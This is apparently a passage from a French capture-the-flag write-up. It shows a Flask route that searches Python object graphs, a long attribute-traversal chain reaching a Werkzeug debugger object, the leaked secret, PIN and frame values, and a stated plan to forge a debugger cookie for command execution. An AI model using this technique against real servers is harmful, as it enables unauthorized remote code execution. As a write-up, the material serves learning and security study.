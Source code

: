 ```py
                yield from visit(v, '{}[{}]'.format(path, repr(i)), depth)
            
    yield from visit(obj)



@app.route("/<secret>")
@app.route("/")
def hello_agent(secret=None):
    ua = request.user_agent
    
    if secret:
        print("Secret: ", secret, flush=True)
        for path, obj in search(ua, 60):
            if str(obj) == secret:
                print(path, flush=True)

    return render_template("index.html", msg=f"Hello {ua}".format(ua=ua))

# TODO: add the vulnerable code here
```

Etant donné que nous ne pouvions pas avoir le secret, j'ai supprimé dans la config nginx l'erreur 500 pour faire fuiter mon premier secret et ensuite l'envoyer depuis ma route `/secret`. Lorsque ma fonction `hello_agent` va détecter le paramètre `secret` il va effectuer une recherche récursive sur tout l'environnement pour trouver le chemin qui contient la string passé en paramètre.

Path:
```py
ua.__class__.to_header.__globals__[__loader__].__class__.__weakref__.__objclass__.get_data.__globals__[__loader__].create_module.__globals__[__builtins__][__build_class__].__self__.copyright.__class__._Printer__setup.__globals__[sys].modules[__main__].main.__globals__[inspect].BlockFinder.tokeneater.__globals__[importlib].find_loader.__globals__[metadata].Deprecated.get.__globals__[email]._policybase.Compat32.__weakref__.__objclass__.clone.__globals__[_has_surrogates].__globals__[urllib].request.AbstractBasicAuthHandler._parse_realm.__globals__[http].cookiejar.Cookie.get_nonstandard_attr.__globals__[_threading].Barrier._break.__globals__[_active][140601691986744]._target.__self__.app
```

Sachant que app est une instance de `DebuggedApplication` j'ai pu facilement accéder à mes variables de classe.
![](https://cdn.discordapp.com/attachments/858439417743540225/1102149221639004200/image.png)

Secret: `ezbNJnGGcodQwxNdtmUo`
Pin: `892-048-462`
Frame: `111144189284128`

Nous avons fait fuité toute les informations. Passons à l'exploitation.

## Exploitation
Rappelons donc les étapes d'exploitation
- Générer un cookie d'authentification via le secret et le pin
- Utiliser nos leak pour exécuter la fonctionnalité d'exécution de commande.
